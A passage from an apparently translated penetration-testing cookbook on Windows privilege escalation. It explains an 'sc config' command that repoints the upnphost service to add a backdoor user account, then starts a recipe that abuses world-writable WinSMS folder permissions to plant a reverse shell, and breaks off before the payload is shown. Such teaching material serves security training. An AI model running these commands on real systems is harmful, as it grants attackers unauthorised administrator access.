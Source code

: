 *   `sc qc upnphost`：`sc`是一个命令行程序，用于与 NT 服务控制器和服务进行通信。`qc`命令查询服务的配置信息。

*   `sc config upnphost binpath= "net user attack attack@123 /add"`：`config`命令指定对服务配置的编辑。这里我们设置二进制路径来创建一个新用户。
*   `sc config upnphost obj= ".\LocalSystem" password= ""`：`obj`命令指定执行服务二进制文件的类型。

## 还有更多。。。

正如我们所看到的，还有一个服务是易受攻击的。最好看看是否可以通过该服务升级权限。

# 软件安装配置错误/文件权限不安全

在本配方中，我们将介绍攻击者如何利用配置错误的软件安装并提升应用程序的权限。这是一个典型的示例，其中配置已安装的安装程序时不考虑用户对应用程序的文件和文件夹的权限。

## 准备好了吗

对于这个配方，我们需要安装一个名为 WinSMS 的应用程序。可从[下载 https://www.exploit-db.com/exploits/40375/](https://www.exploit-db.com/exploits/40375/) 可安装在运行 XP、Vista、7 或 10 的任何 Windows 计算机上。出于演示目的，我们将使用 Windows7。除此之外，我们还需要我们的 Kali 系统启动并运行，以获取反向外壳。

## 怎么做。。。

1.  Once we install the application, we will execute our command prompt and check for the permissions on the folder where the file has installed itself. Enter the following command:

    ```
    cacls "C:\Program Files\WinSMS" 

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_09_023.jpg)

2.  As we can see, there is `Everyone` access, with full rights. That is a serious blunder, which means that anyone who has access to the system can make modifications to any files in that folder. An attacker can pretty much do anything. An attacker can place his malicious file with the executable file of WinSMS, or even replace a DLL file and get his commands executed. For demo purposes, we are going to place a reverse shell that we will create from Kali, and wait for a connection. Let's begin. On your Kali Terminal, enter the following to create a reverse `exe` shell:
